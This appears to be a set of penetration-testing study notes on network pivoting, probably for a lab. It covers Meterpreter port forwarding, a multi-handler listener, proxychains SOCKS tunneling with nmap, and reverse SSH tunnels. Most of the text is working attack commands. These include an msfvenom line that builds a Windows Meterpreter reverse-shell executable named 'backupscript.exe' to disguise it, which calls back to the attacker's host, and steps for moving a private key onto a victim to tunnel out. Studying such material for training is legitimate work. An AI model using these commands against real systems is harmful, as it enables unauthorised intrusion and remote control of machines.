 - **Local Port Forwarding**
  - portfwd module
```
portfwd add -l LISTEN -p TARGET_PORT -r Target_IP
portfwd add -l 3300 -p 3389 -r 172.16.5.19

xfreerdp localhost:3300 = xfreerdp target:3389
```

- **Rerverse Port Forwarding**
  - portfwd -R
```
portfwd add -R -l LOCAL_Port -p TARGET_PORT -L $ATTACKER
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

# Set up multi handler to listen
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 8081 
set LHOST 0.0.0.0 
```

  - Sheell on TARGET would send connection to Pivot:1234 and this send to Attacker:8081

```
# windows payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```

### PROXY
- proxychains: route packaet over 9050, force application traffic to go through proxy
    - SOCKS Tunneling = packing command packet and forwarding to remote server
  - proxychains command
    - proxychains nmap -Pn -sT = host-alive NOT in windows (block ICMP), TCP Full
    - proxychains msfconsole@xfreerdp

```
#Proxychain
# /etc/proxychains.conf

socks4 	127.0.0.1 9050
```

- FoxyProxy
  - better for web

- Tools
  - [ssh-audit.py](https://github.com/jtesta/ssh-audit)

- Steps
  - create key pair on the attacking machine
  - transfer private key to victim
  - stablish connection from victim to attacking
  - ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
  - Browser: localhost
  - executing on we habe the shell
